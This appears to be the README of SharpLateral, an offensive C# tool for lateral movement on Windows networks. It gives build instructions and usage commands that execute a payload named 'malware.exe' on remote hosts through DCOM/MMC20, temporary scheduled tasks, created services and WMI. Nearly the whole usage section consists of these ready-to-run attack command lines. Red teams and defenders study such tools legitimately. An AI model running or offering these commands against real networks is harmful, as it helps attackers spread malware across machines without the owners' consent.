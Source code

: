 # SharpLateral

## Compiling Project

Below 3rd party libraries are used in this project.

<b>TaskScheduler</b><br>https://github.com/dahall/TaskScheduler<br>
<b>Fody</b><br>	https://github.com/Fody/Fody<br><br>
Load the Visual Studio project up and go to "Tools" > "NuGet Package Manager" > "Package Manager Settings"<br>
Open "NuGet Package Manager" > "Package Sources"<br><br>
<b>Install the Fody</b><br>``Install-Package Costura.Fody -Version 3.3.3``<br><br>
<b>Install the Taskscheduler</b><br>``Install-Package TaskScheduler -Version 2.8.11``

## Usage

SharpLateral aims to perform lateral movement with the following methods:<br>

- DCOM
- SERVICE
- WMI
- SCHEDULED TASKS

  <br>DCOM:<br>
``SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe``<br>
Executes Malware on given hostname via MMC20<br>
Scheduled Task:<br>
``SharpLateral schedule C:\Users\Administrator\Desktop\malware.exe TaskName``<br>
Creates Task,Executes Malware,Deletes Task<br>
Service:<br>
``SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName``<br>
  Creates Service and executes malware with it
<br>WMI:<br>
 ``SharpLateral redwmi Client2 C:\\Users\\Administrator\\Desktop\\malware.exe``<br>
Executes malware via WMI on remote host




